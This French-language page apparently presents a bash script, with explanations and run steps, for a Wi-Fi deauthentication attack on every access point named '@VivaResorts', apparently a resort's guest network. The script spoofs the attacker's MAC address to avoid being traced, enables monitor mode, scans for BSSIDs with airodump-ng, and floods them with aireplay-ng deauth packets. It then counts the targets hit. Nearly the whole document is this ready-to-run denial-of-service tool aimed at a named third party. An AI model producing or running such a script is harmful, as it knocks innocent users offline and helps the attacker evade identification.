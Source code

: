 - Changer l'adresse MAC avant de commencer l'attaque et pour compter le nombre d'appareils déauthentifiés.

```bash
#!/bin/bash

# Définir les variables
INTERFACE="wlan0"
ESSID="@VivaResorts"
DURATION=60  # Durée de capture en secondes

# Arrêter Network Manager
echo "[+] Arrêt de Network Manager..."
sudo systemctl stop NetworkManager

# Changer l'adresse MAC
echo "[+] Changement de l'adresse MAC..."
sudo ifconfig $INTERFACE down
sudo macchanger -r $INTERFACE
sudo ifconfig $INTERFACE up

# Mettre l'interface en mode moniteur manuellement
echo "[+] Mise de l'interface en mode moniteur..."
sudo ifconfig $INTERFACE down
sudo iwconfig $INTERFACE mode monitor
sudo ifconfig $INTERFACE up

# Vérifier le mode moniteur
echo "[+] Vérification du mode moniteur..."
iwconfig $INTERFACE | grep "Mode:Monitor"
if [ $? -ne 0 ]; then
    echo "[-] Le mode moniteur n'est pas activé sur $INTERFACE"
    exit 1
fi

# Capture du trafic réseau pour identifier les BSSIDs avec l'ESSID spécifique
echo "[+] Capture du trafic réseau pour identifier les BSSIDs avec l'ESSID spécifique..."
sudo airodump-ng --essid $ESSID --write capture --output-format csv $INTERFACE &
AIRODUMP_PID=$!

# Laisser le temps de capturer
sleep $DURATION

# Arrêter la capture
echo "[+] Arrêt de la capture..."
sudo pkill airodump-ng

# Extraire les BSSIDs du fichier de capture
echo "[+] Extraction des BSSIDs du fichier de capture..."
BSSIDs=$(grep "$ESSID" capture-01.csv | awk -F',' '{print $1}' | sort -u)

if [ -z "$BSSIDs" ]; then
    echo "[-] Aucun BSSID trouvé pour l'ESSID $ESSID"
    exit 1
fi

# Désauthentification des clients
echo "[+] Désauthentification des appareils..."
deauth_count=0
for BSSID in $BSSIDs; do
    echo "[-] Désauthentification des appareils sur BSSID: $BSSID"
    sudo aireplay-ng --deauth 0 -a $BSSID $INTERFACE &
    deauth_count=$((deauth_count + 1))
done

# Laisser le temps de désauthentifier
sleep 10

# Arrêter la désauthentification
echo "[+] Arrêt de la désauthentification..."
sudo pkill aireplay-ng

# Remettre l'interface en mode géré et redémarrer Network Manager
echo "[+] Remise de l'interface en mode géré..."
sudo ifconfig $INTERFACE down
sudo iwconfig $INTERFACE mode managed
sudo ifconfig $INTERFACE up

echo "[+] Redémarrage de Network Manager..."
sudo systemctl start NetworkManager

echo "[+] Désauthentification complète terminée"
echo "Nombre d'appareils désauthentifiés : $deauth_count"
```

### Explications des modifications :

1. **Changement de l'adresse MAC** :
    - Le script change l'adresse MAC de l'interface avant de mettre l'interface en mode moniteur.

2. **Comptage des appareils désauthentifiés** :
    - Un compteur `deauth_count` est ajouté pour compter le nombre de BSSIDs désauthentifiés.

3. **Affichage du résultat** :
    - À la fin du script, le nombre total de BSSIDs désauthentifiés est affiché.

### Exécution du script :

- Sauvegardez le script dans un fichier, par exemple `deauth_vivaresorts.sh`.
- Rendez-le exécutable : `chmod +x deauth_vivaresorts.sh`.
- Exécutez-le avec des privilèges root : `sudo ./deauth_vivaresorts.sh`.

Ce script devrait maintenant changer l'adresse MAC de l'interface, effectuer la désauthentification sur tous les points d'accès avec l'ESSID spécifié et afficher le nombre total d'appareils désauthentifiés à la fin.
